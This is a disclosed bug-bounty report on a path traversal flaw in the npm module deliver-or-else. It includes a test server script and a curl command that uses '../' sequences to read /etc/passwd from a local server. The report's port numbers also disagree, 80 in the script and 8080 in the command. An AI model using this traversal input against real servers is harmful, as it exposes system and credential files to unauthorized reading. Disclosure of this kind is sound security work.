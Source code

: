 # [deliver-or-else] Path Traversal

## Report Details
- **Report ID**: 507310
- **URL**: https://hackerone.com/reports/507310
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-03-10T04:49:02.886Z
- **Disclosed**: 2020-01-29T16:26:38.200Z

## Reporter
- **Username**: johnssimon007
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report path traversal in deliver-or-else module
It allows an attacker to read system files via path traversal through commandline

# Module

**module name:** deliver-or-else
**version:** 1.0.0
**npm page:** https://www.npmjs.com/package/deliver-or-else

## Module Description

> Copy description from npm page

# Vulnerability

## Vulnerability Description

Directory traversal through the url which doesn't verify the file is from the root directory path.

## Steps To Reproduce:

1.npm i deliver-or-else

2.now create a node.js(test.js) file for starting up a localserver on port 80,which will serve the file on the directory(public) over the web browser depending on the file requested by user through url

here is code for test.js

const Deliver = require('deliver-or-else')
const path = require('path')
 
// It is up to you to resolve the document root directory
const http = require('http')
let deliver = new Deliver(path.join(__dirname, 'public'))
let server = http.createServer((req, res) => {
    /**
     * The `deliver` method returns a `Promise`, which in turn can be used to 
     * catch any errors (such as a 404). We could also provide a `then` clause 
     * for when it works successfully and a file has been delivered.
     */
    deliver.deliver(req, res).catch((err) => {
        // The err contains information regarding how the `fs.readFile` failed
        
        res.statusCode = 404
        res.setHeader('Content-Type', 'text/plain')
        res.end('404, no such file.')
    })
})
 
server.listen(80, '127.0.0.1', function () {
    console.log('Starting server...')
})

3.run below command
node test.js
this will startup the server at port 80 

4.trying to fetch a file outside of "public" dir is exempted and shows 404 error

5.this can be bypassed by using curl via commandline by running below command
curl -v --path-as-is http://127.0.0.1:8080/node_modules/../../../../../etc/passwd

which will return the passwd directory contents


# Wrap up

> Select Y or N for the following statements:

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N] 

> Hunter's comments and funny memes goes here

## Impact

This vulnerability allows malicious user to read content of any file on the server, which leads to data breach or other attacks.

## Attachments
- Screenshot_from_2019-03-10_10-19-01.png
